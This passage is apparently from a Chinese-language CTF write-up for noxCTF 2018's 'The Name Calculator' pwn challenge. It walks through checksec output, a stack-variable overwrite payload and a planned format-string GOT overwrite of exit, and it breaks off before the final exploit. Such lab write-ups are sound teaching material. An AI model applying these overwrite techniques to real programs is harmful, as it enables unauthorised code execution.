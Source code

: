 FLAG

```
noxCTF{%N3ver_%7rust_%4h3_%F0rmat}
```



#### PWN—The Name Calculator

惯例检查一遍文件

```bash
➜  TheNameCalculator file TheNameCalculator 
TheNameCalculator: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8f717904e2313e4d6c3bc92730d2e475861123dd, not stripped
➜  TheNameCalculator checksec TheNameCalculator 
[*] '/home/Ep3ius/pwn/process/noxCTF2018/TheNameCalculator/TheNameCalculator'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

简单过一遍程序，只有一个输入

```bash
➜  TheNameCalculator ./TheNameCalculator 
What is your name?
Ep3ius 
I've heard better
```

开ida发现在main里有个套路check，v4在read_buf后不再修改，并且buf的输入大小可以正好覆盖v4的值，所以我们构造payload = 'a'*(0x2c-0x10)+p32(0x6A4B825)让v4在if判断时的值为0x6A4B825

```c
puts("What is your name?");
fflush(stdout);
read(0, &buf, 0x20u);
fflush(stdin);
if ( v4 == 0x6A4B825 )
{
	secretFunc();
}
```

进入secretFunc函数后发现函数最末尾有个格式化字符串漏洞，并且可以通过改exit_got来实现跳转，但中间有一段对输入进行一个异或加密，加密方式很简单就不再赘述，最终要达到的就是输入'aaaa%12$x'能返回未加密时格式化字符串正确的参数就算成功了，剩下的就是普通的格式化字符串改got的标准套路了，不过输入的fmt_payload的大小限制在了27而如果我们直接用fmtstr_payload生成的payload的长度是超过这个大小的，恰巧的是exit_got和superSecretFunc的前两位相同都为0x0804，所以我们的payload就不需要再改exit_got的前两位使我们payload的长度缩减至21

```c
for ( i = buf; i < (int *)((char *)&buf[-1] + v3); i = (int *)((char *)i + 1) )
    *i ^= 0x5F7B4153u;
```
